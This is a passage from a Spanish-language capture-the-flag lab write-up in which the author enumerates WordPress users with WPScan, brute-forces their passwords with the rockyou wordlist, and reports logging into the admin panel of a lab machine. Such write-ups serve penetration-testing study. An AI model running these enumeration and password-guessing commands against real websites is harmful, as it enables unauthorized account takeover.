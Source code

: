 
## **Explotación**

Utilizando la herramienta **WPScan** tambien puedo listar los usuarios.

```bash
wpscan --url http://10.10.203.148 -e u
```

![picture](/assets/images/ejptv2/cold7.png){: w="600" h="300" }

Voy a utilizar la misma herramienta, para intentar encontrar las contraseñas de los usuarios.

```bash
wpscan --url http://10.10.203.148 -U hugo,philip,c0ldd -P /usr/share/wordlists/rockyou.txt
```

Al cabo de un rato, encuentro la contraseña para el usuario "**C0ldd**".

![picture](/assets/images/ejptv2/cold8.png)

Voy a probar a acceder mediante las credenciales, al panel de administrador de **Wordpress**.

![picture](/assets/images/ejptv2/cold9.png)
